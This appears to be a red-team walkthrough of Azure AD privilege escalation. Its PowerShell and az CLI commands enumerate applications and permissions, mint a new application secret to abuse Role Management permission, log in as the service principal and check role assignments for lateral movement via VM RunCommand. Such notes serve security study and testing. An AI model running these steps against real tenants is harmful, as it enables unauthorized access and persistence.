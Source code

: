 > *Next STEP? Look for Applications!*

```powershell
Get-AzureADApplication
```

```powershell
Get-AzureADApplicationOwner -ObjectId <objID>
```

> *What sort of permissions the user have on the App?*

```powershell
$app = Get-AzureADApplication -ObjectID <objID>
$app.RequiredResourceAccess | ConvertTo-Json -Depth 3
# result would be the permissions in Graph API
```

> For **User** or **SP** - check **Directory Role**
> For **App** - check **API permissions**

API Permissions:
```powershell
$sp = Get-AzureADServicePrincipal -All $true | Where-Object {$_.AppId -eq ‘<Resource appID>’}
$sp.AppRoles | Where-Object {$_.Id -eq ‘<Id from ResourceAccess>’}
```

> *In this case we have Role Management Permission, which allow us to escalate privileges by creating credential to the Directory Role*


Get the **Secret** :
```powershell
New-AzureADApplicationPasswordCredential -ObjectID <objID of the Application>
```

Get the **Tenant ID**:

[Tenant Info](https://login.windows.net/domain/.well-known/openid-configuration)

**Authenticate with the NEW Crendential**:
```powershell
az login --service-principal -u <App ID> -p <secret generated> -t <tenant ID>
```

> *Now we have access to the subscription, it means not only to the Azure-AD as before, but also for the ARM. That is why we could login with AZ CLI without problems*


## *You are logged with new credential? Check the permissions!*

Now we can check with AZ CLI:
```powershell
az role assignment list
az role assignment list --assignee “Application ID = same that we use in the -u of az login”
az role assignment list --assignee “Application ID = same that we use in the -u of az login” -All
```


> *In this case, the user has **VM-RunCommand** access to a VM. We can use that for lateral movement*
